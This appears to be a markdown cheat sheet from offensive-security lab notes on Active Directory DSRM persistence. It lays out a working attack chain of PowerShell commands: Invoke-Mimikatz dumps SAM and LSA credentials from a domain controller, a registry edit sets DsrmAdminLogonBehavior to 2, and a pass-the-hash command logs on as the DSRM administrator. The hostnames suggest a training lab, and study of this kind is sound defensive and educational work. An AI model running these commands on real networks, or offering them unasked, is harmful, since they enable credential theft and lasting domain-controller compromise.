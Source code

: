 ## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Extract the credentials from the SAM file from the DC
- [x] 2. Change the Logon Behavior for the DSRM account
- [x] 3. Pass The Hash of the DSRM administrator and logon

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">1. Dump DSRM password (needs DA privs)</span>

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

### <span style="color:#F1C232">2. Compare the Administrator hash with the Administrator hash of below command</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

> If the NTML hash of the Administrator using the **/patch** is *diffrent* than the NTML hash of the Administrator using **DSRM dump** then it is the correct hash of the DSRM local Administrator
{: .prompt-tip }

### <span style="color:#F1C232">3. Add/Edit the Logon Behavior for the DSRM account</span>
 
Since it is the local administrator of the DC, we can pass the hash to authenticate.
But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
```powershell
#Get a session as the DC
Enter-PSSession -Computername dcorp-dc

#check DSRM property
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"

#If DSRMAdminLognonBehariour attribute not created then create and set
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD -Verbose

#If already present but wrong value , then update
Set-ItemProperty -Name "DsrmAdminLogonBehavior" -Value 2
```

### <span style="color:#F1C232">4. Use below command to pass the hash</span>
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:dsrm-hash-goes-here /run:powershell.exe"'
```
